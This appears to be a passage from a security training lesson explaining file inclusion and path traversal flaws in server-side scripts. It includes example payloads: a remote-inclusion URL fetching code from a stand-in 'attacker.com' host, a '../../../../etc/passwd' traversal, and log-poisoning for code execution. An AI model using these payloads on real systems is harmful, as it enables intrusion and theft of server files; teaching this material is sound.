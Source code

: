 Server-side scripts run on the server and generate the content of the frontend, which is then sent to the client. Unlike client-side scripts like JavaScript in the browser, server-side scripts can access the server's file system and databases. File handling is a significant part of server-side scripting. Web applications often need to read from or write to files on the server. For example, reading configuration files, saving user uploads, or including code from other files.

For example, the application below includes a file based on user input.&#x20;

![Vulnerable application homepage](https://tryhackme-images.s3.amazonaws.com/user-uploads/645b19f5d5848d004ab9c9e2/room-content/351e3ca1e5071b199ae7e5078b4fee70.png)

If this input is not correctly validated and sanitized, an attacker might exploit the vulnerable parameter to include malicious files or access sensitive files on the server. In this case, the attacker could view the contents of the server's **passwd** file.

![Vulnerable application a basic file inclusion payload](https://tryhackme-images.s3.amazonaws.com/user-uploads/645b19f5d5848d004ab9c9e2/room-content/53daf7efe0faff4ac5fadc3c410ecb64.png)

In short, file inclusion and path traversal vulnerabilities arise when user inputs are not properly sanitized or validated. Since attackers can inject malicious payloads to log files `/var/log/apache2/access.log` and manipulate file paths to execute the logged payload, an attacker can achieve remote code execution. An attacker may also read configuration files that contain sensitive information, like database credentials, if the application returns the file in plaintext. Lastly, insufficient error handling may also reveal system paths or file structures, providing clues to attackers about potential targets for path traversal or file inclusion attacks.

## File Inclusion Types

***

**Basics of File Inclusion**

A traversal string, commonly seen as `../`, is used in path traversal attacks to navigate through the directory structure of a file system. It's essentially a way to move up one directory level. Traversal strings are used to access files outside the intended directory.

Relative pathing refers to locating files based on the current directory. For example, `include('./folder/file.php')` implies that `file.php` is located inside a folder named `folder`, which is in the same directory as the executing script.

Absolute pathing involves specifying the complete path starting from the root directory. For example, `/var/www/html/folder/file.php` is an absolute path.

**Remote File Inclusion**

Remote File Inclusion, or RFI, is a vulnerability that allows attackers to include remote files, often through input manipulation. This can lead to the execution of malicious scripts or code on the server.

Typically, RFI occurs in applications that dynamically include external files or scripts. Attackers can manipulate parameters in a request to point to external malicious files. For example, if a web application uses a URL in a GET parameter like `include.php?page=http://attacker.com/exploit.php`, an attacker can replace the URL with a path to a malicious script.

**Local File Inclusion**

Local File Inclusion, or LFI, typically occurs when an attacker exploits vulnerable input fields to access or execute files on the server. Attackers usually exploit poorly sanitized input fields to manipulate file paths, aiming to access files outside the intended directory. For example, using a traversal string, an attacker might access sensitive files like `include.php?page=../../../../etc/passwd`.
